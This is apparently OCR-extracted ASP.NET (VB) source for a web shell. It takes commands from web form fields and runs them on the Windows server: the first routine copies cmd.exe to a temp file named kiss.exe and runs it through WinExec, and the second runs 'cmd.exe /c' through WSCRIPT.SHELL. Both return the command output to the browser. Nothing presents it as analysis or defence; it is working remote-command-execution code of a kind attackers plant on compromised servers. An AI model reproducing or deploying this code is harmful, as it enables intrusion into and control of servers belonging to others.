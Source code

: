 Sub RunCmdW32(Src As Object, E As EventArgs)
	dim command
	dim fileObject = Server.CreateObject("Scripting.FileSystemObject")		
	dim tempFile = Environment.GetEnvironmentVariable("TEMP") & "\"& fileObject.GetTempName( )
	If Request.Form("txtCommand1") = "" Then
		command = "dir c:\"	
	else 
		command = Request.Form("txtCommand1")
	End If	
	ExecuteCommand1(command,tempFile,txtCmdFile.Text)
	OutputTempFile1(tempFile,fileObject)
	'txtCommand1.text=""
End Sub
Sub ExecuteCommand1(command As String, tempFile As String,cmdfile As String)
	Dim winObj, objProcessInfo, item, local_dir, local_copy_of_cmd, Target_copy_of_cmd
	Dim objStartup, objConfig, objProcess, errReturn, intProcessID, temp_name
	Dim FailIfExists
	
	local_dir = left(request.servervariables("PATH_TRANSLATED"),inStrRev(request.servervariables("PATH_TRANSLATED"),"\"))
	'local_copy_of_cmd = Local_dir+"cmd.exe"
	'local_copy_of_cmd= "C:\\WINDOWS\\system32\\cmd.exe"
	local_copy_of_cmd=cmdfile
	Target_copy_of_cmd = Environment.GetEnvironmentVariable("Temp")+"\kiss.exe"
	CopyFile(local_copy_of_cmd, Target_copy_of_cmd,FailIfExists)
	errReturn = WinExec(Target_copy_of_cmd + " /c " + command + "  > " + tempFile , 10)
	response.write(errReturn)
	thread.sleep(500)
End Sub
Sub OutputTempFile1(tempFile,oFileSys)
	On Error Resume Next 
	dim oFile = oFileSys.OpenTextFile (tempFile, 1, False, 0)
	resultcmdw32.text=txtCommand1.text & vbcrlf & "<pre>" & (Server.HTMLEncode(oFile.ReadAll)) & "</pre>"
   	oFile.Close
   	Call oFileSys.DeleteFile(tempFile, True)	 
End sub
'End w32 shell
'Run WSH shell
Sub RunCmdWSH(Src As Object, E As EventArgs)
	dim command
	dim fileObject = Server.CreateObject("Scripting.FileSystemObject")
	dim oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
	dim tempFile = Environment.GetEnvironmentVariable("TEMP") & "\"& fileObject.GetTempName( )
	If Request.Form("txtcommand2") = "" Then
		command = "dir c:\"	
	else 
		command = Request.Form("txtcommand2")
	End If	  
	ExecuteCommand2(command,tempFile)
	OutputTempFile2(tempFile,fileObject)
	txtCommand2.text=""
End Sub
Function ExecuteCommand2(cmd_to_execute, tempFile)
	  Dim oScript
	  oScript = Server.CreateObject("WSCRIPT.SHELL")
      Call oScript.Run ("cmd.exe /c " & cmd_to_execute & " > " & tempFile, 0, True)
End function
Sub OutputTempFile2(tempFile,fileObject)
    On Error Resume Next
	dim oFile = fileObject.OpenTextFile (tempFile, 1, False, 0)
	resultcmdwsh.text=txtCommand2.text & vbcrlf & "<pre>" & (Server.HTMLEncode(oFile.ReadAll)) & "</pre>"
	oFile.Close